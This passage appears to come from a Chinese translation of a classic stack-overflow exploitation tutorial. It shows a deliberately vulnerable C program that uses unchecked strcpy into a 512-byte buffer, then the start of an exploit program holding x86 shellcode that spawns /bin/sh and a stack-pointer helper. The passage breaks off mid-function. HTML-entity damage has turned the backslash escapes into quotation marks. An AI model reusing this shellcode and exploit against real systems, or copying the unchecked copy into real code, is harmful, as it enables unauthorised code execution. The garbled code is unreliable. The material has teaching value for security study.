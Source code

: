 ------------------------------------------------------------------------------

void main(int argc, char *argv[]) {

&nbsp;&nbsp;char buffer[512];

&nbsp;&nbsp;if (argc &gt; 1)

&nbsp; &nbsp; strcpy(buffer,argv[1]);

}

------------------------------------------------------------------------------

&nbsp; &nbsp; 我们创建一个程序可以接受两个参数, 一是缓冲区大小, 二是从其自身堆栈指针算起

的偏移量(这个堆栈指针指明了我们想要使其溢出的缓冲区所在的位置). 我们把溢出字符

串放到一个环境变量中, 这样就容易操作一些. 

exploit2.c

------------------------------------------------------------------------------

#include &lt;stdlib.h&gt;

#define DEFAULT_OFFSET&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;0

#define DEFAULT_BUFFER_SIZE&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; 512

char shellcode[] =

&nbsp;&nbsp;""xeb"x1f"x5e"x89"x76"x08"x31"xc0"x88"x46"x07"x89"x46"x0c"xb0"x0b"

&nbsp;&nbsp;""x89"xf3"x8d"x4e"x08"x8d"x56"x0c"xcd"x80"x31"xdb"x89"xd8"x40"xcd"

&nbsp;&nbsp;""x80"xe8"xdc"xff"xff"xff/bin/sh";

unsigned long get_sp(void) {

&nbsp; &nbsp;__asm__("movl %esp,%eax");

}

void main(int argc, char *argv[]) {

&nbsp;&nbsp;char *buff, *ptr;

&nbsp;&nbsp;long *addr_ptr, addr;

&nbsp;&nbsp;int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;

&nbsp;&nbsp;int i;

&nbsp;&nbsp;if (argc &gt; 1) bsize&nbsp;&nbsp;= atoi(argv[1]);

&nbsp;&nbsp;if (argc &gt; 2) offset = atoi(argv[2]);

&nbsp;&nbsp;if (!(buff = malloc(bsize))) {

&nbsp; &nbsp; printf("Can't allocate memory."n");

&nbsp; &nbsp; exit(0);
